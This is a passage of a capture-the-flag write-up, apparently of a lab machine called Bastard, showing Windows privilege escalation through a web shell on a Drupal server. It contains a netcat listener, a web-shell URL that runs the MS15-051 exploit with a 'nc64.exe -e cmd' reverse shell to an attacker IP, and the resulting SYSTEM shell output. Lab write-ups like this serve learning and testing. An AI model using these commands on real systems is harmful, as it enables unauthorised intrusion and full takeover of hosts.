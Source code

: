 After unzipping the downloaded file, we copy our executable to our folder where we have our HTTP server.
Now we just need to open a new listener with **nc** and access the following route:  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard]─[root@Arthorias]─[0]─[4276]
╰─[:)] # nc -nlvp 6966
listening on [any] 6966 ...
{% endhighlight %}  

Link to download the exploit and perform the execution of netcat with the exploit.  

{% highlight markdown %}
http://10.10.10.9/Gerh.php?execute_command=ms15-051x64.exe "nc64.exe -e cmd 10.10.14.17 6966"
{% endhighlight %}  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Bastard/server]─[root@Arthorias]─[0]─[4292]
╰─[:)] # nc -nlvp 6966        
listening on [any] 6966 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.9] 49287
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
{% endhighlight %}    

Ready, we have successfully escalated privileges.
To finish, I'm going to do this same demonstration but using another method, which is to do the whole process above but with the Metasploit Framework.  

**NOTE:**  
We must generate a payload with *msfvenom* and then download it from our victim machine.  

<script id="asciicast-241323" src="https://asciinema.org/a/241323.js" async></script>  

